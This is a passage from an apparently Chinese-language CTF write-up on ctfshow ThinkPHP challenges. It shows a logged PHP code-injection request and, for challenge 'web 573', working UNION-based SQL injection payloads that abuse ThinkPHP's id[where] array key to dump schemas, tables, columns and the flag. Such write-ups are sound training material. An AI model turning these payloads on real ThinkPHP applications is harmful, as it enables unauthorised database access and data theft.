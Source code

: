 找到线索，大概是类似前面的show方法渲染？

```plaintext
[ 2021-04-15T14:49:32+08:00 ] 127.0.0.1 /index.php?showctf=%3C?php%20phpinfo();?%3E
```

![16](https://the0n3.top/medias/show-think/16.png)


![17](https://the0n3.top/medias/show-think/17.png)


## web 573

> 描述： sql注入，flag在数据库中

测试正常sql注入时，似乎不会查询，猜测tp框架内部重写了查询语句

谷歌一下[查询方式](https://www.kancloud.cn/manual/thinkphp/1767)

> ThinkPHP可以支持直接使用字符串作为查询条件，但是大多数情况推荐使用数组或者对象来作为查询条件，因为会更加安全。

首先，支持正常的字符串查询，其次，**tp框架支持且推荐以数组或者对象作为查询条件**，举例

- 使用数组作为查询条件

这种方式是最常用的查询方式，例如：

```php
$User = M("User"); // 实例化User对象
$condition['name'] = 'thinkphp';
$condition['status'] = 1;
// 把查询条件传入查询方法
$User->where($condition)->select(); 
```

最后生成的SQL语句是

```sql
SELECT * FROM think_user WHERE `name`='thinkphp' AND status=1
```

好了，关键就在这里，发现了吗，tp框架会把数组变量的键值对作为sql语句里的查询条件

看了其他师傅的wp，发现可以给变量添加一个`where`键名，实现复写原sql语句的`where`条件！震惊

回归主题：SQL注入

传一个数组变量id，键名`where`，键值为查询条件，给一个错误的sql条件，报下错，验证是否能复写where

![20](https://the0n3.top/medias/show-think/20.png)

这里可以看到，条件只要合理，是完全可控的。通过测试，发现存在4个字段，第二个字段是会回显位

![21](https://the0n3.top/medias/show-think/21.png)

```sql
# 爆库  ctfshow,ctftraining,information_schema,mysql,performance_schema,test
?id[where]=0 union select 1,group_concat(schema_name),2,3 from information_schema.schemata%23
# 爆表  ctfshow_users,flags,FLAG_TABLE,news,users ....
?id[where]=0 union select 1,group_concat(table_name),2,3 from information_schema.tables%23
# 爆字段
?id[where]=0 union select 1,group_concat(column_name),2,3 from information_schema.columns%23
#爆flag
?id[where]=0 union select 1,group_concat(flag4s),2,3 from ctfshow.flags%23
```
